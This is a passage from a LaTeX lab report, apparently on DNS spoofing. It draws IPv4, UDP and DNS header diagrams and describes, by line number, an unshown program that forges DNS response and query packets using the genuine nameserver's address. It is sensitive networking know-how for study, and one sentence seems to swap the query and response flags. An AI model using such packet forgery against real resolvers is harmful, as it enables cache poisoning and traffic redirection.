			\draw[line width=0.4mm](11.2,0.35) -- (11.2,-10.35);
			\draw[line width=0.2mm](11.6,0.2) -- (11.6,-10.2);
			\draw[line width=0.2mm](12,0.2) -- (12,-10.2);
			\draw[line width=0.2mm](12.4,0.2) -- (12.4,-10.2);
			
			\draw[line width=0.5mm] (0,-1.7) -- (-0.5,-1.7);
			\draw (-0.5,-1.7) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} 32};
			\draw[line width=0.5mm] (0,-3.4) -- (-0.5,-3.4);
			\draw (-0.5,-3.4) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} 64};
			\draw[line width=0.5mm] (0,-5.1) -- (-0.5,-5.1);
			\draw (-0.5,-5.1) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} 96};
			\draw[line width=0.5mm] (0,-6.8) -- (-0.5,-6.8);
			\draw (-0.5,-6.8) node[xshift=-0.2cm, yshift=-0.3cm]{\color{red} 128};
			\draw[line width=0.5mm] (0,-8.5) -- (-0.5,-8.5);
			\draw (-0.5,-8.5) node[xshift=-0.2cm, yshift=-0.3cm]{\color{red} 160};
			
			%First Row
			\draw[fill=white!50] (0,0) rectangle node{\footnotesize Version} (1.59,-1.5);
			\draw[fill=white!50] (1.61,0) rectangle node[align=center, text width=1.57cm]{\footnotesize Header\\Length (IHL)} (3.18,-1.5);
			\draw[fill=white!50] (3.22,0) rectangle node[align=center,text width=3.16cm]{\footnotesize Type of\\Service (TOS)} (6.38,-1.5);
			\draw[fill=white!50] (6.42,0) rectangle node{\footnotesize Total Length} (12.8,-1.5);
			
			%Second Row
			\draw[fill=white!50] (0,-1.7) rectangle node{\footnotesize Identification} (6.38,-3.2);
			\draw[fill=white!50] (6.42,-1.7) rectangle node[align=center,text width=1.16cm]{\footnotesize IP\\ Flags} (7.6,-3.2);
			\draw[fill=white!50] (7.6,-1.7) rectangle node{\footnotesize Fragment Offset} (12.8,-3.2);
			
			%Third Row
			\draw[fill=white!50] (0,-3.4) rectangle node[align=center,text width=3.18cm]{\footnotesize Time To\\ Live (TTL)} (3.18,-4.9);
			\draw[fill=white!50] (3.22,-3.4) rectangle node{\footnotesize Protocol} (6.38,-4.9);
			\draw[fill=white!50] (6.42,-3.4) rectangle node{\footnotesize Header Checksum} (12.8,-4.9);
			
			%Fourth Row
			\draw[fill=white!50] (0,-5.1) rectangle node{\footnotesize Source Address} (12.8,-6.6);
			
			%Fifth Row
			\draw[fill=white!50] (0,-6.8) rectangle node{\footnotesize Destination Address}(12.8,-8.3);
			
			%Sixth Row
			\draw[fill=white!50] (0,-8.5) rectangle node{\footnotesize IP Option (variable length, optional)}(12.8,-10);

			\end{tikzpicture}
			\caption{IPv4 Header}
				\label{fig:IPv4Head}
			\end{figure}
			\noindent Extensive information on the IPv4 header and its field definitions can be found on AIT's WordPress site\footnote[2]{\url{https://advancedinternettechnologies.wordpress.com/ipv4-header/}}.\\\\
			Lines 53 -- 59 creates the structure for the UDP packet header, which is illustrated in the figure below\footref{foot1}. 
			\begin{figure}[H]
						\centering
						\tikzset{>=stealth'}
						
\begin{tikzpicture}
						
						\draw (-0.8,0) node[xshift=0cm,yshift=0.3cm,text width=0.7cm, align=left] {Bit\\Offset};
						\draw[line width=0.5mm,fill=black] (-0.02,0.6) -- (-0.02,-3.8);
						\draw (0,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 0};
						\draw[line width=0.5mm] (3.2,0.6) -- (3.2,-3.8);
						\draw (3.2,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 7};
						\draw[line width=0.5mm] (6.4,0.6) -- (6.4,-3.8);
						\draw (6.4,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 15};
						\draw[line width=0.5mm] (9.6,0.6) -- (9.6,-3.8);
						\draw (9.6,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 23};
						\draw[line width=0.5mm] (12.82,0.6) -- (12.82,-3.8);
						\draw (12.8,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 31};
						
						\draw[line width=0.2mm](0.4,0.2) -- (0.4,-3.4);
						\draw[line width=0.2mm](0.8,0.2) -- (0.8,-3.4);
						\draw[line width=0.2mm](1.2,0.2) -- (1.2,-3.4);
						\draw[line width=0.4mm](1.6,0.35) -- (1.6,-3.55);
						\draw[line width=0.2mm](2,0.2) -- (2,-3.4);
						\draw[line width=0.2mm](2.4,0.2) -- (2.4,-3.4);
						\draw[line width=0.2mm](2.8,0.2) -- (2.8,-3.4);
						
						\draw[line width=0.2mm](3.6,0.2) -- (3.6,-3.4);
						\draw[line width=0.2mm](4,0.2) -- (4,-3.4);
						\draw[line width=0.2mm](4.4,0.2) -- (4.4,-3.4);
						\draw[line width=0.4mm](4.8,0.35) -- (4.8,-3.55);
						\draw[line width=0.2mm](5.2,0.2) -- (5.2,-3.4);
						\draw[line width=0.2mm](5.6,0.2) -- (5.6,-3.4);
						\draw[line width=0.2mm](6,0.2) -- (6,-3.4);
						
						\draw[line width=0.2mm](6.8,0.2) -- (6.8,-3.4);
						\draw[line width=0.2mm](7.2,0.2) -- (7.2,-3.4);
						\draw[line width=0.2mm](7.6,0.2) -- (7.6,-3.4);
						\draw[line width=0.4mm](8,0.35) -- (8,-3.55);
						\draw[line width=0.2mm](8.4,0.2) -- (8.4,-3.4);
						\draw[line width=0.2mm](8.8,0.2) -- (8.8,-3.4);
						\draw[line width=0.2mm](9.2,0.2) -- (9.2,-3.4);
						
						\draw[line width=0.2mm](10,0.2) -- (10,-3.4);
						\draw[line width=0.2mm](10.4,0.2) -- (10.4,-3.4);
						\draw[line width=0.2mm](10.8,0.2) -- (10.8,-3.4);
						\draw[line width=0.4mm](11.2,0.35) -- (11.2,-3.55);
						\draw[line width=0.2mm](11.6,0.2) -- (11.6,-3.4);
						\draw[line width=0.2mm](12,0.2) -- (12,-3.4);
						\draw[line width=0.2mm](12.4,0.2) -- (12.4,-3.4);
						
						\draw[line width=0.5mm] (0,-1.7) -- (-0.5,-1.7);
						\draw (-0.5,-1.7) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} 32};
						
						%First Row
						\draw[fill=white!50] (0,0) rectangle node{\footnotesize Source Port} (6.38,-1.5);
						\draw[fill=white!50] (6.42,0) rectangle node{\footnotesize Destination Port} (12.8,-1.5);
						
						%Second Row
						\draw[fill=white!50] (0,-1.7) rectangle node{\footnotesize UDP Length} (6.38,-3.2);
						\draw[fill=white!50] (6.42,-1.7) rectangle node{\footnotesize UDP Checksum} (12.8,-3.2);
			
						\end{tikzpicture}
						\caption{UDP Packet Header}
							\label{fig:UDPHead}
						\end{figure}
					\noindent Lines 60 -- 68 creates the structure for the DNS header, which is illustrated in the figure below\footnote[3]{\url{https://www.securityartwork.es/2013/02/21/snort-byte_test-for-dummies-2/}} \footnote[4]{\url{https://tools.ietf.org/html/rfc1035\#page-26}\label{IETF}}.	
					\begin{figure}[H]
		\centering
		\tikzset{>=stealth'}
		
\begin{tikzpicture}
		
		\draw (-0.8,0) node[xshift=0cm,yshift=0.3cm,text width=0.7cm, align=left] {Bit\\Offset};
		\draw[line width=0.5mm,fill=black] (-0.02,0.6) -- (-0.02,-5.5);
		\draw (0,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 0};
		\draw[line width=0.5mm] (3.2,0.6) -- (3.2,-5.5);
		\draw (3.2,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 7};
		\draw[line width=0.5mm] (6.4,0.6) -- (6.4,-5.5);
		\draw (6.4,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 15};
		\draw[line width=0.5mm] (9.6,0.6) -- (9.6,-5.5);
		\draw (9.6,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 23};
		\draw[line width=0.5mm] (12.82,0.6) -- (12.82,-5.5);
		\draw (12.8,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 31};
		
		\draw[line width=0.2mm](0.4,0.2) -- (0.4,-5.1);
		\draw[line width=0.2mm](0.8,0.2) -- (0.8,-5.1);
		\draw[line width=0.2mm](1.2,0.2) -- (1.2,-5.1);
		\draw[line width=0.4mm](1.6,0.35) -- (1.6,-5.25);
		\draw[line width=0.2mm](2,0.2) -- (2,-5.1);
		\draw[line width=0.2mm](2.4,0.2) -- (2.4,-5.1);
		\draw[line width=0.2mm](2.8,0.2) -- (2.8,-5.1);
		
		\draw[line width=0.2mm](3.6,0.2) -- (3.6,-5.1);
		\draw[line width=0.2mm](4,0.2) -- (4,-5.1);
		\draw[line width=0.2mm](4.4,0.2) -- (4.4,-5.1);
		\draw[line width=0.4mm](4.8,0.35) -- (4.8,-5.25);
		\draw[line width=0.2mm](5.2,0.2) -- (5.2,-5.1);
		\draw[line width=0.2mm](5.6,0.2) -- (5.6,-5.1);
		\draw[line width=0.2mm](6,0.2) -- (6,-5.1);
		
		\draw[line width=0.2mm](6.8,0.2) -- (6.8,-5.1);
		\draw[line width=0.2mm](7.2,0.2) -- (7.2,-5.1);
		\draw[line width=0.2mm](7.6,0.2) -- (7.6,-5.1);
		\draw[line width=0.4mm](8,0.35) -- (8,-5.25);
		\draw[line width=0.2mm](8.4,0.2) -- (8.4,-5.1);
		\draw[line width=0.2mm](8.8,0.2) -- (8.8,-5.1);
		\draw[line width=0.2mm](9.2,0.2) -- (9.2,-5.1);
		
		\draw[line width=0.2mm](10,0.2) -- (10,-5.1);
		\draw[line width=0.2mm](10.4,0.2) -- (10.4,-5.1);
		\draw[line width=0.2mm](10.8,0.2) -- (10.8,-5.1);
		\draw[line width=0.4mm](11.2,0.35) -- (11.2,-5.25);
		\draw[line width=0.2mm](11.6,0.2) -- (11.6,-5.1);
		\draw[line width=0.2mm](12,0.2) -- (12,-5.1);
		\draw[line width=0.2mm](12.4,0.2) -- (12.4,-5.1);
		
		\draw[line width=0.5mm] (0,-1.7) -- (-0.5,-1.7);
		\draw (-0.5,-1.7) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} 32};
		\draw[line width=0.5mm] (0,-3.4) -- (-0.5,-3.4);
		\draw (-0.5,-3.4) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} 64};
		
		%First Row
		\draw[fill=white!50] (0,0) rectangle node{\footnotesize Transaction ID} (6.38,-1.5);
		\draw[fill=white!50] (6.42,0) rectangle node[align=center,text width=0.38cm]{\footnotesize Q\\R} (6.8,-1.5);
		\draw[fill=white!50] (6.8,0) rectangle node{\footnotesize Opcode} (8.4,-1.5);
		
		%Sub-top Row
		\draw[fill=white!50] (8.4,0) rectangle node{\footnotesize DNS Flags} (11.19,-0.75);
		%Sub-bottom Row
		\draw[fill=white!50] (8.4,-0.75) rectangle node{\tiny AA} (8.8,-1.5);
		\draw[fill=white!50] (8.8,-0.75) rectangle node{\tiny TC} (9.2,-1.5);
		\draw[fill=white!50] (9.2,-0.75) rectangle node{\tiny RD} (9.6,-1.5);
		\draw[fill=white!50] (9.6,-0.75) rectangle node{\tiny RA} (10,-1.5);
		\draw[fill=white!50] (10,-0.75) rectangle node{\tiny Z} (10.4,-1.5);
		\draw[fill=white!50] (10.4,-0.75) rectangle node{\tiny AD} (10.8,-1.5);
		\draw[fill=white!50] (10.8,-0.75) rectangle node{\tiny CD} (11.19,-1.5);
		
		\draw[fill=white!50] (11.21,0) rectangle node{\footnotesize RCode} (12.8,-1.5);
		
		%Second Row
		\draw[fill=white!50] (0,-1.7) rectangle node{\footnotesize Number of Questions} (6.38,-3.2);
		\draw[fill=white!50] (6.42,-1.7) rectangle node{\footnotesize Number of Answers Resource Records} (12.8,-3.2);
		
		%Third Row
		\draw[fill=white!50] (0,-3.4) rectangle node{\footnotesize Number of Authority Resource Records} (6.38,-4.9);
		\draw[fill=white!50] (6.42,-3.4) rectangle node{\footnotesize Number of Additional Resource Records} (12.8,-4.9);

		\end{tikzpicture}
		\flushleft
		Field definitions:\\
		\begin{enumerate}
		\itemsep0em
		\item QR -- Query (0) $|$ Response (1)
		\item DNS Flags:
		\begin{enumerate}
		\itemsep0em
		\item AA -- Authoritative Answer
		\item TC -- Truncated Answer (Set if packet is larger than UDP maximum size of 512 bytes)
		\item RD -- Recursive Desired (Set if query is recursive)
		\item RA -- Recursive Available
		\item Z -- Reserved for future use
		\item AD -- Authentic Data (Set in DNSSEC, part of Z in legacy systems)
		\item CD -- Checking Disabled (Set in DNSSEC, part of Z in legacy systems)
		\end{enumerate}
		\item RCode -- Return Code (0 for no error, 3 if name is non-existent)
		\end{enumerate}
		\caption{DNS Header}
			\label{fig:DNSHead}
		\end{figure}
		\noindent The following figure illustrates the structure of the question \textit{query} of the DNS packet, with relevant information being filled up using lines 410 - 419. below\footref{IETF}\footnote[5]{\url{http://www.networksorcery.com/enp/protocol/dns.htm}\label{RR}}.
		
		\begin{figure}[H]
		\centering
		\tikzset{>=stealth'}
		
\begin{tikzpicture}
		
		\draw (-0.8,0) node[xshift=0cm,yshift=0.3cm,text width=0.7cm, align=left] {Bit\\Offset};
		\draw[line width=0.5mm,fill=black] (-0.02,0.6) -- (-0.02,-3.8);
		\draw (0,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 0};
		\draw[line width=0.5mm] (3.2,0.6) -- (3.2,-3.8);
		\draw (3.2,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 7};
		\draw[line width=0.5mm] (6.4,0.6) -- (6.4,-3.8);
		\draw (6.4,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 15};
		\draw[line width=0.5mm] (9.6,0.6) -- (9.6,-3.8);
		\draw (9.6,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 23};
		\draw[line width=0.5mm] (12.82,0.6) -- (12.82,-3.8);
		\draw (12.8,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 31};
		
		\draw[line width=0.2mm](0.4,0.2) -- (0.4,-3.4);
		\draw[line width=0.2mm](0.8,0.2) -- (0.8,-3.4);
		\draw[line width=0.2mm](1.2,0.2) -- (1.2,-3.4);
		\draw[line width=0.4mm](1.6,0.35) -- (1.6,-3.55);
		\draw[line width=0.2mm](2,0.2) -- (2,-3.4);
		\draw[line width=0.2mm](2.4,0.2) -- (2.4,-3.4);
		\draw[line width=0.2mm](2.8,0.2) -- (2.8,-3.4);
		
		\draw[line width=0.2mm](3.6,0.2) -- (3.6,-3.4);
		\draw[line width=0.2mm](4,0.2) -- (4,-3.4);
		\draw[line width=0.2mm](4.4,0.2) -- (4.4,-3.4);
		\draw[line width=0.4mm](4.8,0.35) -- (4.8,-3.55);
		\draw[line width=0.2mm](5.2,0.2) -- (5.2,-3.4);
		\draw[line width=0.2mm](5.6,0.2) -- (5.6,-3.4);
		\draw[line width=0.2mm](6,0.2) -- (6,-3.4);
		
		\draw[line width=0.2mm](6.8,0.2) -- (6.8,-3.4);
		\draw[line width=0.2mm](7.2,0.2) -- (7.2,-3.4);
		\draw[line width=0.2mm](7.6,0.2) -- (7.6,-3.4);
		\draw[line width=0.4mm](8,0.35) -- (8,-3.55);
		\draw[line width=0.2mm](8.4,0.2) -- (8.4,-3.4);
		\draw[line width=0.2mm](8.8,0.2) -- (8.8,-3.4);
		\draw[line width=0.2mm](9.2,0.2) -- (9.2,-3.4);
		
		\draw[line width=0.2mm](10,0.2) -- (10,-3.4);
		\draw[line width=0.2mm](10.4,0.2) -- (10.4,-3.4);
		\draw[line width=0.2mm](10.8,0.2) -- (10.8,-3.4);
		\draw[line width=0.4mm](11.2,0.35) -- (11.2,-3.55);
		\draw[line width=0.2mm](11.6,0.2) -- (11.6,-3.4);
		\draw[line width=0.2mm](12,0.2) -- (12,-3.4);
		\draw[line width=0.2mm](12.4,0.2) -- (12.4,-3.4);
		
		\draw[line width=0.5mm] (0,-1.7) -- (-0.5,-1.7);
		\draw (-0.5,-1.7) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} $\alpha$};
		
		%First Row
		\draw[fill=white!50] (0,0) rectangle node{\footnotesize Query Name (variable length)} (12.8,-1.5);
		
		%Second Row
		\draw[fill=white!50] (0,-1.7) rectangle node{\footnotesize Query Type} (6.38,-3.2);
		\draw[fill=white!50] (6.42,-1.7) rectangle node{\footnotesize Query Class} (12.8,-3.2);

		\end{tikzpicture}
		\caption{Question Query Format}
			\label{fig:Query}
		\end{figure}
		
		\noindent Lines 79 -- 103 creates the structure for the answers, nameservers section of the DNS packet, which is illustrated in the figure below\footref{IETF}\footref{RR}.
		\begin{figure}[H]
					\centering
					\tikzset{>=stealth'}
					
\begin{tikzpicture}
					
					\draw (-0.8,0) node[xshift=0cm,yshift=0.3cm,text width=0.7cm, align=left] {Bit\\Offset};
					\draw[line width=0.5mm,fill=black] (-0.02,0.6) -- (-0.02,-7.2);
					\draw (0,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 0};
					\draw[line width=0.5mm] (3.2,0.6) -- (3.2,-7.2);
					\draw (3.2,0) node[xshift=0.2cm, yshift=0.6cm]{\color{red} 7};
					\draw[line width=0.5mm] (6.4,0.6) -- (6.4,-7.2);
					\draw (6.4,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 15};
					\draw[line width=0.5mm] (9.6,0.6) -- (9.6,-7.2);
					\draw (9.6,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 23};
					\draw[line width=0.5mm] (12.82,0.6) -- (12.82,-7.2);
					\draw (12.8,0) node[xshift=0.3cm, yshift=0.6cm]{\color{red} 31};
					
					\draw[line width=0.2mm](0.4,0.2) -- (0.4,-6.8);
					\draw[line width=0.2mm](0.8,0.2) -- (0.8,-6.8);
					\draw[line width=0.2mm](1.2,0.2) -- (1.2,-6.8);
					\draw[line width=0.4mm](1.6,0.35) -- (1.6,-6.95);
					\draw[line width=0.2mm](2,0.2) -- (2,-6.8);
					\draw[line width=0.2mm](2.4,0.2) -- (2.4,-6.8);
					\draw[line width=0.2mm](2.8,0.2) -- (2.8,-6.8);
					
					\draw[line width=0.2mm](3.6,0.2) -- (3.6,-6.8);
					\draw[line width=0.2mm](4,0.2) -- (4,-6.8);
					\draw[line width=0.2mm](4.4,0.2) -- (4.4,-6.8);
					\draw[line width=0.4mm](4.8,0.35) -- (4.8,-6.95);
					\draw[line width=0.2mm](5.2,0.2) -- (5.2,-6.8);
					\draw[line width=0.2mm](5.6,0.2) -- (5.6,-6.8);
					\draw[line width=0.2mm](6,0.2) -- (6,-6.8);
					
					\draw[line width=0.2mm](6.8,0.2) -- (6.8,-6.8);
					\draw[line width=0.2mm](7.2,0.2) -- (7.2,-6.8);
					\draw[line width=0.2mm](7.6,0.2) -- (7.6,-6.8);
					\draw[line width=0.4mm](8,0.35) -- (8,-6.95);
					\draw[line width=0.2mm](8.4,0.2) -- (8.4,-6.8);
					\draw[line width=0.2mm](8.8,0.2) -- (8.8,-6.8);
					\draw[line width=0.2mm](9.2,0.2) -- (9.2,-6.8);
					
					\draw[line width=0.2mm](10,0.2) -- (10,-6.8);
					\draw[line width=0.2mm](10.4,0.2) -- (10.4,-6.8);
					\draw[line width=0.2mm](10.8,0.2) -- (10.8,-6.8);
					\draw[line width=0.4mm](11.2,0.35) -- (11.2,-6.95);
					\draw[line width=0.2mm](11.6,0.2) -- (11.6,-6.8);
					\draw[line width=0.2mm](12,0.2) -- (12,-6.8);
					\draw[line width=0.2mm](12.4,0.2) -- (12.4,-6.8);
					
					\draw[line width=0.5mm] (0,-1.7) -- (-0.5,-1.7);
					\draw (-0.5,-1.7) node[xshift=-0.1cm, yshift=-0.3cm]{\color{red} $\alpha$};
					\draw[line width=0.5mm] (0,-3.4) -- (-0.5,-3.4);
					\draw (-0.5,-3.4) node[xshift=-0.5cm, yshift=-0.3cm]{\color{red} $\alpha$$+$$32$};
					\draw[line width=0.5mm] (0,-5.1) -- (-0.5,-5.1);
					\draw (-0.5,-5.1) node[xshift=-0.5cm, yshift=-0.3cm]{\color{red} $\alpha$$+$$64$};
					
					%First Row
					\draw[fill=white!50] (0,0) rectangle node{\footnotesize Name (variable length)} (12.8,-1.5);
					
					%Second Row
					\draw[fill=white!50] (0,-1.7) rectangle node{\footnotesize Type} (6.38,-3.2);
					\draw[fill=white!50] (6.42,-1.7) rectangle node{\footnotesize Class} (12.8,-3.2);
					
					%Third Row
					\draw[fill=white!50] (0,-3.4) rectangle node{\footnotesize Time To Live (TTL)} (12.8,-4.9);
					
					%Fourth Row
					\draw[fill=white!50] (0,-5.1) rectangle node{\footnotesize Resource Data Length} (6.38,-6.6);
					\draw[fill=white!50] (6.42,-5.1) rectangle node{\footnotesize Resource Data (variable length)} (12.8,-6.6);
					\end{tikzpicture}
					\caption{Resource Record Format}
						\label{fig:RRForm}
					\end{figure}
					\noindent Lines 119 -- 152 involves the implementation of the checksum (checking) algorithm for the UDP packets\footnote[6]{\url{https://tools.ietf.org/html/rfc791\#section-3.1}}. For the UDP checksum to be calculated, a psuedo-header needs to be constructed from the IP packet. This also catches incorrectly routed packets. The payload, together with the UDP header and some fields of the IP header are included in the calculation\footnote[7]{\url{https://stackoverflow.com/questions/1480580/udp-checksum-calculation}}.\\\\
					Lines 156 -- 366 involves the construction of the response packet with the relevant data. Of things to note is line 293, where the destination IP address being used is the IP address of the genuine nameserver for \texttt{example.com}. To check the IP address for the nameserver, running \texttt{dig example.com} is sufficient as the additional section will show the IP address (A record) of the nameservers.
\begin{figure}[H]
\centering
\includegraphics[width=0.7\linewidth]{digexample}
\caption{Original Domain Query}
\label{fig:digexample}
\end{figure}
\noindent Lines 368 -- 543 deal with the construction of the query packet and the sending of it to the destination IP address. One difference between the response packet and the query packet are lines 184 and 407, where the response packet (line 184) clearly has the query flag set while the query packet (line 407) has the response flag marked.\\\\Further, lines 217 and 249 contain the IP address to the A record for the resource on the domain \texttt{example.com}. This record must be present in the domain zone of the server or otherwise the nameserver will be considered invalid.
\newpage
\section{Further Explanations\protect\footnote[8]{\href{https://www.tenouk.com/Module42.html}{Information courtesy of https://www.tenouk.com/Module42.html}}}
To understand how the packets are constructed, the entire TCP/IP stack needs to be analysed. There are 4 layers in the TCP/IP stack (condensed from 7 in the OSI model). The functions of each layer are unique and illustrated in the figure below.
		\begin{figure}[H]
			\centering
			\tikzset{>=stealth'}
